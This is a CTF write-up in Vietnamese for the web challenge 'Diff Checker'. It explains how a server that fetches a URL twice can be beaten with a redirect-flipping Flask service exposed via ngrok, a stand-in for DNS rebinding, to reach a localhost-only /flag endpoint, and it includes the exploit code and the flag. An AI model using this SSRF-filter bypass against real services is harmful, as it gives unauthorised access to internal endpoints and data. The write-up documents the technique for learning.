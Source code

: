 # Diff Checker

Mình vẫn chưa solve được bài này tại giải do có một ít bruh .__. Bài này sử dụng một kĩ thuật khá hay giống với thứ mình mới học gần đây nên mình viết write up để lưu lại :>

## Hmmmmmm

Sau khi nghiên cứu source thì ai cũng biết flag được giấu ở đây :)) Để lấy được flag thì mình phải request đến `/flag` bằng một địa chỉ local.

```js
app.get('/flag', (req, res) => {
	if(req.connection.remoteAddress == '::1'){ // check ip local
		res.send(flag)}
	else{
		res.send("Forbidden", 503)}
});
```

Server sẽ request 2 lần đến địa chỉ mà mình cung cấp:

* Lần 1 là kiếm tra SSRF tại hàm `validifyURL`

```js
valid = await fetch(url, {agent: ssrfFilter(url)})
```

* Lần 2 là thực hiện `fetch` để lấy nội dung tại hàm `diffURLs`

```js
const pageOne = await fetch(urls[0]).then((r => {return r.text()}));
```

Khi request lần đầu, server sẽ check SSRF do đó URL mình nhập vào không được trỏ đến các địa chỉ bị filter như: `localhost`, `127.0.0.1`, `0.0.0.0`,... Sau khi đã pass được đoạn check SSRF thì mình cần phải trỏ đến server bằng địa chỉ local để lấy được flag.

Với ý tưởng như trên mình có thể dễ dàng solve được bài này bằng kĩ thuật DNS Rebinding nhưng ở đây, mình sẽ tự build một cái service tương tự, đây chính là thứ mình muốn note lại.

***But ưtf is D N S R e b i n d i n g ????***

![dejavu](images/dejavu.png)

DNS Rebinding ở các bài viết trước của mình:

* [Ez SQL (ISITDTU CTF QUALS 2021)](https://github.com/woanmeo11/ctf-writeups/tree/main/ISITDTU%20CTF%20QUALS%202021/ez%20sql)

* [A tiny hole (Cookie Arena Season 1)](https://github.com/woanmeo11/ctf-writeups/tree/main/Cookie%20Arena%20Season%201/A%20tiny%20hole)

## Do it

Đây là đoạn code mình nặn ra dựa trên ý tưởng vừa rồi, `backend.py`:

```python
from flask import Flask, redirect
import requests

app = Flask(__name__)
bit_flip = 0

# This function works like DNS Rebinding technique.
@app.route("/")
def rebinding():
    global bit_flip
    bit_flip += 1
    if bit_flip & 1:
        return 'bruh'
    else:
        return redirect('http://localhost:1337/flag')

app.run('localhost', 1234)
```

Đoạn code trên sẽ xoay vòng trả về `bruh` hoặc chuyển hướng đến `http://localhost:1337/flag`.

Tiếp theo mình chạy file `backend.py` và dùng `ngrok` để public lên internet:

```console
$ ngrok http localhost:1234

ngrok by @inconshreveable                                                                                (Ctrl+C to quit)

Session Status                online
Account                       woanmeo11 (Plan: Free)
Version                       2.3.40
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://e0cc-14-242-198-247.ngrok.io -> http://localhost:1234
Forwarding                    https://e0cc-14-242-198-247.ngrok.io -> http://localhost:1234

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```

Cuối cùng, dùng URL mình nhận được từ `ngrok` để exploit thôi xD

![exploit](images/exploit.png)

Wait for it.

![flag](images/flag.png)


Flag: `idek{d1ff3r3nc3_ch3ck3r_d3ce1v3d_bY_d1ff3r3nc3s}`

#

Technique này mình note lại từ `downgrade` <3
